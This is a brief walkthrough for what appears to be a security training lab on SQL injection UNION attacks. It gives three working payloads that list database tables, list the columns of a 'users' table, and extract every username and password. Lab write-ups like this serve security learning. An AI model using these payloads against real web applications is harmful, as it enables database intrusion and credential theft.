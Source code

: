 # Lab: SQL injection UNION attack, retrieving data from other tables

## Steps:

1. First use this to get the table names of the database
```
' OR 1=1 UNION SELECT TABLE_NAME, TABLE_TYPE FROM information_schema.tables --
```

2. Then get the name of the columns
```
' OR 1=1 UNION SELECT COLUMN_NAME, DATA_TYPE FROM information_schema.columns WHERE TABLE_NAME='users' --
```

3. Now use the column names here to get the username and password of other users
```
' OR 1=1 UNION SELECT username, password FROM users --
```